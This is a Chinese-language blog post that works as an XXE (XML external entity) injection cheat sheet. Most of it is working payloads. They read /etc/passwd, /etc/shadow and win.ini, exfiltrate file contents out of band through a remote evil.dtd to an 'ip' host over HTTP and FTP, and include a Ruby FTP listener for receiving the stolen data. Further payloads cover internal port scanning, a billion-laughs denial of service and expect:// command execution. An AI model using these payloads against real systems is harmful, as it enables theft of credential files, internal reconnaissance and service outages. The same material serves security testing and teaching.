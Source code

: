 ```yaml
---
title: XXE 漏洞
categories: 漏洞
date: 2020-06-17 05:10:22
tags:
---
```

## 概念
XXE：就是XML外部实体注入。当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行、内网端口探测、攻击内网网站等危害。
<!--more-->
* 所有xml文档都由5种简单的构造模块（元素，属性，实体，PCDATA CDATA）构成
* CDATA 的意思是字符数据（character data）。
CDATA 是不会被解析器解析的文本，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记。
在读取包含了某些字符文件输出报错的时候，可使用CDATA进行绕过。

DTD：（文档类型定义）作用是定义 XML 文档的合法构建模块。可以在 XML 文档内声明，也可以外部引用。
## 利用
首先测试是否解析xml，修改Content-Type: application/xml发送测试代码
```
<?xml version="1.0"?>
    <!DOCTYPE ANY[
    <!ENTITY shit “this is test” >
]>
<root>$shit</root>
```
### 有回显读取敏感文件
基础payload
```
<?xml version="1.0"?>
    <!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
```
```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % data3 SYSTEM "file:///etc/shadow">
<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
]>
<r>&data3;</r>
<r>&data;</r>
```
如果要读取的文件内容有<> &，被解析器解析出错了，可以使用<![CDATA[xxxx]]>不让其进行解析。
这里声明的另一种方式% 变量(有空格)，该方式只能在DTD中进行变量引用%变量，而不能在XML中引用。
在远程服务器创建DTD文件：evil.dtd
```
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY xxe "%start;%body;%end;">
```
payload
```
<?xml version="1.0"?>
<!DOCTYPE GVI [
<!ENTITY % start "<![CDATA["> 
<!ENTITY % body SYSTEM "file:///etc/passwd" >
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd">
%dtd;
]>
```
另外一种方法，利用报错
将含有参数实体的数据传递到另一个文件实体中，以便在访问第二个文件时触发文件未找到的异常，并且将第一个文件的内容作为第二个文件的名字，这样的话，就成功出发了文件未找到异常，也完全返回了第一个文件的内容。
payload
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
    <!ENTITY % one SYSTEM "http://ip/evil.dtd" >
    %one; %two; %four;
]>
```
evil.dtd
```
<!ENTITY % three SYSTEM "file:///etc/passwd">
<!ENTITY % two "<!ENTITY % four SYSTEM 'file:///%three;'>">
```
### 无回显读取敏感文件
payload
```
<?xml version="1.0"?>
    <!DOCTYPE data SYSTEM "http://ip/evil.dtd">
```
evil.dtd
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY data SYSTEM 'http://ip:9999/?%file;'>">
```
nc监听即可
另外一种payload
```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/evil.dtd">
%remote;%int;%send;
]>
```
evil.dtd
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>">
```
上面两种利用方式，在java中无法正常利用：虽然能获取到dtd文件，但是却没有发送数据。
### ftp协议读取敏感文件
payload
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip/evil.xml">
%remote;]>
<root/>
```
evil.xml
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://ip:33/%file;'>">
%int;
%send;
```
服务器监听，接收来自33端口的ftp信息
Ruby ftp.rb
```
require 'socket'
server = TCPServer.new 33
loop do
  Thread.start(server.accept) do |client|
    puts "New client connected"
    data = ""
    client.puts("220 xxe-ftp-server")
    loop {
        req = client.gets()
        puts "< "+req
        if req.include? "USER"
            client.puts("331 password please - version check")
        else
           #puts "> 230 more data please!"
            client.puts("230 more data please!")
        end
    }
  end
```
实际使用读取最后一行可能会出现丢失字符的现象，有待改进。
### 端口扫描
根据响应时间/长度，判断该端口是否开启
```
<?xml version="1.0"?>
    <!DOCTYPE GVI [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080" >
]>
```
### 其他

Dos攻击:著名的 billion laughs attack
```
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
expect协议远程代码执行，很少发生
```
<?xml version="1.0"?>
    <!DOCTYPE GVI [ <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "expect://id" >]>
```

参考文章
https://www.jianshu.com/p/ec2888780308
https://xz.aliyun.com/t/3357#toc-4
https://www.cnblogs.com/r00tuser/p/7255939.html
http://www.voidcn.com/article/p-njawsjxm-ko.html


